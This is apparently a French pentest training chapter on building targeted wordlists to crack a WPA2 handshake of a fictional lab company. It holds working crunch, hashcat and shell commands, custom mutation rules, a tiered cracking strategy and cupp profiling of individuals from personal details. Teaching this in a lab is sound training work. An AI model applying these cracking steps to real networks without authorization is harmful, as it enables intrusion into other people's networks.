

# 5.5 Construction de dictionnaires français

!!! quote "L'analogie du concierge qui connaît ses occupants"

    Un concierge qui voudrait deviner les mots de passe de tous les habitants d'un immeuble n'essaiera pas des combinaisons aléatoires. Il connaît ses occupants. Il sait que la famille Dupont a un chien Rex et une fille Sophie. Que le couple Martin se sont mariés en 2015. Que le retraité Lefebvre est passionné de Olympique de Marseille. Avec ces informations, il génère 200 hypothèses ciblées qui couvriront probablement 80 % des mots de passe réels. Pour cracker WPA2 efficacement, vous devez devenir ce concierge. Vous ne testerez pas 6 milliards de combinaisons aléatoires. Vous testerez 100 millions de combinaisons **probables** dans le contexte français et ARTECH-spécifique.

## Métadonnées du chapitre

Ce chapitre est crucial pour le succès du cracking. Voici ses caractéristiques.

| Champ | Valeur |
|---|---|
| Durée estimée | 4 heures |
| Niveau | Pratique avancé |
| Prérequis | 5.4 (handshake capturé) |
| Livrables | Dictionnaire personnalisé ARTECH (10-100M entrées) |
| Auto-explication | 15 minutes |

## Objectifs pédagogiques

À l'issue de ce chapitre, vous serez capable de :

- Identifier les dictionnaires de référence francophones
- Construire un dictionnaire ciblé pour ARTECH
- Utiliser crunch pour des combinaisons spécifiques
- Appliquer des règles hashcat (mutations probables)
- Exploiter les fuites de données pour enrichir
- Estimer la taille et le temps d'attaque

---

## 1. Économie d'un mot de passe

Avant tout, comprenons ce qui rend un mot de passe **attaquable**.

### 1.1 Espace théorique vs pratique

Voici la différence entre espace théorique et pratique.

| Composition | Caractères possibles | Espace 12 caractères |
|---|---|---|
| Chiffres uniquement | 10 | 10^12 = 1000 milliards |
| Lettres minuscules | 26 | 26^12 = 95 milliards de milliards |
| Alphanumérique | 62 | 62^12 = 3000 milliards de milliards |
| ASCII complet | 95 | 95^12 = 540 quadrillions |

Mais en **pratique**, les humains n'utilisent qu'une fraction infime de cet espace.

### 1.2 Comportement humain

Les utilisateurs francophones tendent à choisir leurs mots de passe selon des **patterns prévisibles**.

| Pattern | Fréquence FR |
|---|---|
| Prénom + année | 18 % |
| Mot du dictionnaire + chiffres | 22 % |
| Nom de proche + date | 15 % |
| Nom du club/passion + chiffre | 8 % |
| Prénom + caractère spécial + année | 12 % |
| 8 caractères suivants au clavier | 6 % |
| Mot de passe d'autre service | 19 % |

### 1.3 Implication pour ARTECH

Pour ARTECH dont le PSK est `ArtechMedical2020!`, voici l'analyse.

```text
ANALYSE DU PSK ARTECH
========================

ArtechMedical2020!

Composition :
  - Mot société : "Artech"
  - Mot secteur : "Medical"
  - Année : 2020
  - Caractère final : "!"

Pattern : NomSociete + Secteur + Annee + SymboleSimple

Probabilité d'être dans dictionnaire personnalisé : ÉLEVÉE
Probabilité d'être dans dictionnaire générique : modérée

Stratégie cracking :
  Construire dictionnaire spécifique ARTECH avec :
  - Variations Artech / artech / ARTECH
  - Variations Medical / medical / Médical / Med
  - Années 2018-2026
  - Symboles courants : ! @ # $ % &
  - Combinaisons typiques

Estimation : ~100 000 - 1 000 000 candidats
Temps RTX 3060 : < 1 seconde
```

## 2. Dictionnaires de référence

### 2.1 rockyou.txt

Le dictionnaire de référence absolu en pentest. Issu de la fuite RockYou en 2009.

| Caractéristique | Valeur |
|---|---|
| Source | Fuite RockYou 2009 |
| Taille | ~14 millions de lignes |
| Volume | 134 Mo |
| Langues | Anglais majoritaire (~70%) + autres |
| Localisation Kali | /usr/share/wordlists/rockyou.txt.gz |

```bash
# Décompression rockyou
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz

# Vérification
wc -l /usr/share/wordlists/rockyou.txt
# 14 344 391 lignes
```

### 2.2 SecLists

Collection de wordlists maintenue par Daniel Miessler.

| Caractéristique | Valeur |
|---|---|
| Source | github.com/danielmiessler/SecLists |
| Taille | Variable (catégorisé) |
| Spécialité | Multi-domaine (web, passwords, etc.) |

```bash
# Installation
sudo apt install seclists -y

# Localisation
ls /usr/share/seclists/Passwords/

# Fichiers utiles
ls /usr/share/seclists/Passwords/Common-Credentials/
```

### 2.3 Dictionnaires français spécifiques

Voici les dictionnaires francophones de référence.

| Source | Description |
|---|---|
| Dictionnaire-français.txt | ~330 000 mots Larousse |
| crackstation-realhuman | 65M mots passes humains |
| weakpass.com | Multiples dumps français |
| HashKiller français | Collection FR |

### 2.4 BreachCompilation

Compilation de fuites massives. Légalité **discutable** (recel potentiel).

```text
ATTENTION LÉGALE - BREACHCOMPILATION
=====================================

La BreachCompilation contient 1.4 milliard
de credentials issus de fuites.

Article 323-3 (recel de données obtenues
par fraude) peut s'appliquer en France.

Position légale recommandée :
  - Ne PAS télécharger ces collections
  - Utiliser HIBP, IntelX, DeHashed (services
    avec couche d'abstraction et compliance)
  - Pour les pentests sous mandat, vérifier
    la position du client par écrit

Pour OmnyAcademy : NE PAS télécharger ces collections.
```

## 3. Construction d'un dictionnaire ARTECH

### 3.1 Méthodologie

Voici la méthodologie pour construire un dictionnaire ciblé.



### 3.2 Mots de base ARTECH

Voici la liste de mots à constituer à partir de l'OSINT du module 4.

```bash
# Création de la liste de mots de base
cat > artech-base.txt << 'EOF'
artech
ARTECH
Artech
medical
Medical
MEDICAL
medic
Medic
pharma
Pharma
sante
Sante
santé
Santé
lyon
Lyon
LYON
vaise
Vaise
distribution
Distribution
fournisseur
Fournisseur
laboratoire
Laboratoire
clinique
Clinique
hopital
Hopital
hôpital
Hôpital
chu
CHU
EOF
```

### 3.3 Application de variations basiques

Voici les variations courantes à appliquer.

```bash
# Variations de casse
cat artech-base.txt | while read mot; do
    echo "$mot"                    # Original
    echo "$(echo $mot | tr a-z A-Z)" # MAJUSCULES
    echo "$(echo $mot | tr A-Z a-z)" # minuscules
    echo "$(echo $mot | sed 's/./\u&/')" # Capitalize
done | sort -u > artech-base-cases.txt
```

### 3.4 Combinaisons avec dates

Voici comment générer les combinaisons année + symbole.

```bash
# Génération années 2010-2026
seq 2010 2026 > years.txt

# Symboles courants
cat > symbols.txt << 'EOF'

!
?
.
*
&
@
#
$
%
EOF

# Combinaisons mot + année
> artech-with-year.txt
while read mot; do
    while read year; do
        echo "${mot}${year}"
        echo "${mot}_${year}"
    done < years.txt
done < artech-base-cases.txt >> artech-with-year.txt

# Ajout de symboles finaux
> artech-final.txt
while read line; do
    while read sym; do
        echo "${line}${sym}"
    done < symbols.txt
done < artech-with-year.txt >> artech-final.txt

# Dédup
sort -u artech-final.txt > artech-dictionary.txt
wc -l artech-dictionary.txt
```

## 4. Outil crunch

`crunch` génère des combinaisons selon des règles précises.

### 4.1 Syntaxe

Voici la syntaxe de base de crunch.

```bash
crunch <min> <max> [<charset>] [-o <fichier>] [-t <pattern>]
```

Voici les options principales.

| Option | Effet |
|---|---|
| `<min>` | Longueur minimale |
| `<max>` | Longueur maximale |
| `<charset>` | Caractères à utiliser |
| `-o` | Fichier sortie |
| `-t` | Pattern (avec %= chiffres, @= lettres, ^= symboles) |
| `-d N@` | Limite de répétition |
| `-z` | Compression sortie (gzip) |

### 4.2 Exemples ARTECH

Voici quelques générations utiles pour ARTECH.

```bash
# Génération des PIN à 4 chiffres
crunch 4 4 0123456789 -o pin-4digits.txt
# 10 000 lignes

# Mots de 8 caractères alphanumériques
crunch 8 8 -o alphanum-8.txt
# 218 milliards de lignes (énorme)

# Pattern : 6 lettres + année
crunch 10 10 -t @@@@@@2020 -o pattern.txt
# Trop volumineux

# Pattern : Artech + 4 chiffres + symbole
crunch 12 12 -t Artech%%%%@ \
    -p Artech \
    -o artech-pattern.txt
```

### 4.3 Estimation de taille

Avant génération, crunch peut estimer la taille.

```bash
# Estimation sans générer
crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789

# Sortie typique
# Crunch will now generate the following amount of data: 25524448640...
# Crunch will now generate the following number of lines: 2821109907456
```

### 4.4 Limites pratiques

crunch est utile pour des **patterns spécifiques**, pas pour des dictionnaires généraux.

| Cas | crunch utile ? |
|---|---|
| Tester PIN 6 chiffres (1M) | Oui |
| Tester nom + année (1000) | Oui |
| Force brute alphabet 8 (200B) | Non (trop volumineux) |
| Variations crackstation | Non (utiliser règles hashcat) |

## 5. Règles hashcat - mutations intelligentes

Plutôt que de générer toutes les variantes, utilisez les **règles hashcat** appliquées à un dictionnaire de base.

### 5.1 Concept

Les règles hashcat appliquent des **mutations** à chaque mot du dictionnaire. Voici quelques exemples.

| Règle | Effet | Exemple |
|---|---|---|
| `:` | Ne rien faire | `password → password` |
| `l` | Tout en minuscules | `Password → password` |
| `u` | Tout en majuscules | `Password → PASSWORD` |
| `c` | Capitalize | `password → Password` |
| `r` | Reverse | `password → drowssap` |
| `$1` | Append "1" | `password → password1` |
| `^!` | Prepend "!" | `password → !password` |
| `sa@` | Substitute a → @ | `password → p@ssword` |
| `D2` | Delete @ pos 2 | `password → pasword` |

### 5.2 Règles built-in hashcat

hashcat fournit plusieurs jeux de règles. Voici les plus utiles.

| Fichier | Description | Lignes |
|---|---|---|
| `best64.rule` | Top 64 mutations | 64 |
| `T0XlC.rule` | Mutations classiques | ~3 000 |
| `dive.rule` | Très exhaustif | ~99 000 |
| `rockyou-30000.rule` | Top 30k pour rockyou | 30 000 |
| `pantagrule.rule` | Bibliothèque francophone | ~2M |

```bash
# Localisation Kali
ls /usr/share/hashcat/rules/

# Application avec hashcat
hashcat -m 22000 -a 0 \
    artech-handshake.22000 \
    rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule
```

### 5.3 Création d'une règle ARTECH

Voici comment créer un fichier de règle personnalisé.

```bash
# Création artech.rule
cat > artech.rule << 'EOF'
:
l
u
c
$1
$2
$0
$0$2$0
$2$0$2$0
$!
$@
$#
$1$!
$2$0$2$0$!
^!
sa@
si1
sa@$2$0$2$0
EOF

# Utilisation
hashcat -m 22000 -a 0 \
    artech-handshake.22000 \
    artech-base.txt \
    -r artech.rule
```

### 5.4 Combinaison de règles

Vous pouvez combiner plusieurs règles. Voici les implications.

```text
COMBINATION DE RÈGLES
=======================

Si vous avez :
  - 100 mots de base (artech-base.txt)
  - 64 règles (best64.rule)

Total candidats = 100 × 64 = 6400 candidats

Si vous combinez 2 règles :
  - 100 × 64 × 64 = 409 600 candidats

Calcul exponentiel : attention à l'explosion.
```

## 6. Stratégie multi-niveaux pour ARTECH

Voici une stratégie en cascade pour maximiser les chances.

### 6.1 Niveau 1 - Dictionnaire ARTECH ciblé

Niveau ultra-spécifique. Tente les mots de passe les plus probables d'abord.

```bash
# Niveau 1 - Très ciblé
hashcat -m 22000 -a 0 \
    artech-handshake.22000 \
    artech-dictionary.txt

# Si trouvé : terminer
# Si pas trouvé : passer à niveau 2
```

### 6.2 Niveau 2 - rockyou + best64

Niveau standard. Couvre une grande partie des mots de passe humains.

```bash
# Niveau 2 - rockyou avec mutations
hashcat -m 22000 -a 0 \
    artech-handshake.22000 \
    /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule
```

### 6.3 Niveau 3 - Crackstation francophone + dive

Niveau approfondi. Pour mots de passe plus rares.

```bash
# Niveau 3 - crackstation avec dive
hashcat -m 22000 -a 0 \
    artech-handshake.22000 \
    crackstation-realhuman.txt \
    -r /usr/share/hashcat/rules/dive.rule
```

### 6.4 Niveau 4 - Mask attack ciblée

Si rien ne fonctionne, attaque par masque (chapitre 5.6).

```bash
# Niveau 4 - Mask brute force ciblée 8-12 caractères
hashcat -m 22000 -a 3 \
    artech-handshake.22000 \
    "?u?l?l?l?l?l?l?d?d?d?d?s"
# Prénom 7 lettres + 4 chiffres + symbole
```

### 6.5 Pour ARTECH spécifiquement

Avec PSK = `ArtechMedical2020!`, voici quel niveau réussit.

| Niveau | Trouve ARTECH ? |
|---|---|
| 1 - Dictionnaire ciblé | OUI (compte Artech, Medical, 2020, !) |
| 2 - rockyou + best64 | NON (trop spécifique société) |
| 3 - crackstation + dive | Possible si concaténations |
| 4 - mask | Possible si pattern correct |

Le **niveau 1 trouve en quelques secondes**.

## 7. Sources de mots de passe francophones

### 7.1 Sources légales

Voici les sources de dictionnaires français légalement accessibles.

| Source | Type |
|---|---|
| Lexique des mots français | Larousse, Robert |
| Wikipédia FR (extraction) | Mots et noms propres |
| INSEE prénoms | Tous prénoms français déclarés |
| Communes de France | Toponymes |
| Équipes sportives | Football, rugby, etc. |
| Marques françaises | Logos et entreprises |

### 7.2 Listes prénoms INSEE

L'INSEE publie une liste exhaustive des prénoms donnés en France.

```bash
# Téléchargement INSEE prénoms
wget "https://www.insee.fr/fr/statistiques/fichier/2540004/dpt2022_csv.zip" \
    -O insee-prenoms.zip

unzip insee-prenoms.zip

# Extraction des prénoms uniques
awk -F';' 'NR>1 {print $2}' dpt2022.csv \
    | sort -u \
    > prenoms-france.txt

wc -l prenoms-france.txt
# Plus de 100 000 prénoms uniques
```

### 7.3 Toponymes français

```bash
# Source : data.gouv.fr communes
wget "https://www.data.gouv.fr/fr/datasets/r/dbe8a621-a9c4-4bc3-9cae-be1699c5ff25" \
    -O communes.csv

# Extraction noms de communes
awk -F';' 'NR>1 {print $7}' communes.csv \
    | sort -u \
    > communes-france.txt
```

## 8. Outils complémentaires

### 8.1 cupp - Common User Passwords Profiler

`cupp` génère un dictionnaire personnalisé interactif basé sur des questions.

```bash
# Installation
sudo apt install cupp -y

# Lancement interactif
cupp -i

# Le programme demande :
#   Prénom de la cible :
#   Surnom :
#   Date de naissance :
#   Conjoint :
#   Date naissance conjoint :
#   Enfant :
#   Animal :
#   Société :
#   Mots significatifs :
#   ...

# Génère un dictionnaire ciblé sur cette personne
```

### 8.2 mentalist

`mentalist` (GUI) est un générateur visuel de wordlists par règles.

```bash
# Installation depuis GitHub
git clone https://github.com/sc0tfree/mentalist.git
cd mentalist

# Lancement GUI
python3 mentalist.py
```

### 8.3 Wordninja

`wordninja` segmente des mots collés, utile pour traiter les bases de fuites.

```bash
# Installation
pip3 install wordninja

# Usage
echo "ArtechMedical2020" | wordninja
# Sortie : artech medical 2020
```

## 9. Estimation et budget temps

Avant lancement du cracking (chapitre 5.6), estimez le temps nécessaire.

### 9.1 Calcul ordre de grandeur

Voici la formule à appliquer.

```text
TEMPS = TAILLE_DICO × MULTIPLICATEUR_REGLES / VITESSE_CRACKING

Exemple :
  rockyou.txt (14M)
  × best64.rule (64 règles)
  / RTX 4090 (1.8M PSK/sec)
  = 14M × 64 / 1.8M
  = 498 secondes
  = 8 minutes 18 secondes

Exemple ARTECH :
  artech-dictionary.txt (100k)
  × pas de règles (1)
  / RTX 3060 (500k PSK/sec)
  = 100k / 500k
  = 0.2 secondes
```

### 9.2 Budgets typiques

Voici les budgets typiques sur RTX 3060.

| Dictionnaire | Règles | Temps RTX 3060 |
|---|---|---|
| ARTECH ciblé (100k) | aucune | < 1 sec |
| ARTECH ciblé (100k) | best64 | ~13 sec |
| rockyou (14M) | aucune | ~28 sec |
| rockyou (14M) | best64 | ~30 min |
| rockyou (14M) | dive | impraticable (semaines) |
| crackstation (65M) | aucune | ~2 min |
| Mask 8 caractères all | - | jamais (PB heat death) |

### 9.3 Stratégie par budget

Voici quelle stratégie privilégier selon votre budget temps.

| Budget | Approche |
|---|---|
| 5 minutes | Dictionnaire ARTECH + best64 |
| 30 minutes | + rockyou + best64 |
| 4 heures | + crackstation + dive |
| 24 heures | + mask attacks ciblées |
| Semaines | Probablement WPA3, abandonner |

## 10. Cas pratique - Dictionnaire ARTECH

### 10.1 Construction complète

Voici la procédure complète pour ARTECH lab.

```bash
# Préparation
mkdir -p ~/pentest/artech-2026/dictionaries
cd ~/pentest/artech-2026/dictionaries/

# 1. Liste de mots ARTECH-spécifiques
cat > artech-words.txt << 'EOF'
artech
medical
medic
pharma
sante
lyon
vaise
distribution
fournisseur
laboratoire
clinique
hopital
chu
EOF

# Variations casse
cat artech-words.txt | while read m; do
    echo "$m"
    echo "${m^}"           # Capitalize
    echo "${m^^}"          # MAJUSCULES
done | sort -u > artech-cases.txt

# 2. Combinaisons mots
> artech-combos.txt
while read m1; do
    while read m2; do
        echo "${m1}${m2}"
        echo "${m1}_${m2}"
    done < artech-cases.txt
done < artech-cases.txt >> artech-combos.txt

# 3. Ajout années
seq 2010 2026 > years.txt
> artech-with-years.txt
while read combo; do
    while read y; do
        echo "${combo}${y}"
        echo "${combo}_${y}"
    done < years.txt
done < artech-combos.txt >> artech-with-years.txt

# 4. Ajout symboles
> artech-final.txt
for sym in '!' '?' '#' '@' '$' '*'; do
    while read line; do
        echo "${line}${sym}"
        echo "${sym}${line}"
    done < artech-with-years.txt
done >> artech-final.txt

# Aussi sans symbole
cat artech-with-years.txt >> artech-final.txt

# 5. Tri et dédup
sort -u artech-final.txt > artech-dictionary.txt
wc -l artech-dictionary.txt
# Typiquement 100k - 1M lignes

# 6. Sauvegarde finale
sha256sum artech-dictionary.txt > MANIFEST.sha256
```

### 10.2 Vérification

Vérifiez que le PSK ARTECH y figure (en lab).

```bash
# Vérification de présence du PSK ARTECH
grep "ArtechMedical2020" artech-dictionary.txt
# Doit afficher : ArtechMedical2020!

# Si pas trouvé, ajuster les variations dans la construction
```

## 11. Auto-évaluation

Vérifiez votre maîtrise par les questions suivantes.

| # | Question | Réponse |
|---|---|---|
| 1 | Dictionnaire de référence pentest ? | rockyou.txt |
| 2 | Outil pour wordlists générées ? | crunch |
| 3 | Outil pour dictionnaire personnalisé ? | cupp |
| 4 | Fichier de règles le plus utilisé ? | best64.rule |
| 5 | Source légale prénoms français ? | INSEE |
| 6 | Risque légal BreachCompilation ? | Article 323-3 (recel) |
| 7 | Stratégie en cascade ? | Niveau 1 → 4 |
| 8 | Multiplicateur typique avec règles ? | 64 (best64) |

## 12. Synthèse

Voici les points clés à retenir.

```text
DICTIONNAIRES FRANÇAIS

DICTIONNAIRES DE RÉFÉRENCE
  rockyou.txt : 14M mots (Kali)
  SecLists : multi-domaine
  crackstation-realhuman : 65M
  
INTERDICTIONS
  BreachCompilation : article 323-3
  Tout dump illégal : recel

CONSTRUCTION ARTECH
  Mots de base OSINT (10-30)
  Variations casse (×3)
  Combinaisons mots (×n²)
  Ajout années (×17)
  Ajout symboles (×6)
  Total : 100k - 1M

OUTILS
  crunch : génération précise
  cupp : interactif personnalisé
  mentalist : GUI règles
  hashcat rules : mutations

RÈGLES HASHCAT
  best64.rule : standard
  dive.rule : exhaustif
  Application : -r option

STRATÉGIE CASCADE
  N1 ARTECH ciblé
  N2 rockyou + best64
  N3 crackstation + dive
  N4 mask brute ciblé

ESTIMATION TEMPS
  ARTECH ciblé : <1 sec
  rockyou + best64 : 30 min
  crackstation + dive : impraticable
```

---

**Chapitre précédent** : [5.4 Déauthentification ciblée et capture handshake](5-4-deauth-handshake.md)

**Chapitre suivant** : [5.6 hashcat et attaque GPU](5-6-hashcat-gpu.md)
